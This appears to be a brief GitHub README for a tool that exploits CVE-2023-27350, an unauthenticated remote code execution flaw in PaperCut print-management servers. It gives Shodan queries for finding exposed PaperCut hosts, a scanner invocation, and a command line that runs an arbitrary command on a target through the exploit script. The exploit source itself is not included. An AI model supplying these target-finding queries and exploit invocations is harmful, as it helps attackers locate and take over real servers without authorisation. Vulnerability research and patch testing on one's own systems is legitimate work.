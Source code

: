 # CVE-2023-27350
PaperCut - Unauthenticated Remote Code Execution
- Shodan dork
```
http.html:"papercut"
http.html:"papercut" port:9191
http.title:"PaperCut Login"
```  
## Usage <br/>
- Check
```
python3 scanner.py
Enter IP:
```
- RCE    
```
python3 papercut_rce.py --url 'http://ip:9191' --command calc.exe
```
